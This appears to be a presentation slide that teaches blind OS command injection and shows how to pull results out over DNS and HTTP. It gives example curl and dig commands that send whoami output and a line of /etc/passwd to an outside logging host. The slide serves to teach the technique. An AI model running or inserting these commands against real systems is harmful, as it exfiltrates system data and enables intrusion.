

# Blind OS Command Injection
DNSLog/HTTPLog

Since outbound DNS traffic is usually not blocked from getting through, we can know the result of our command execution

curl http://testhash.test.dnslog.link/?`whoami`
dig `cut -d: -s -f1 /etc/passwd | sed 10\!d` @ip
With a variety of command tools that can trigger HTTP/DNS requests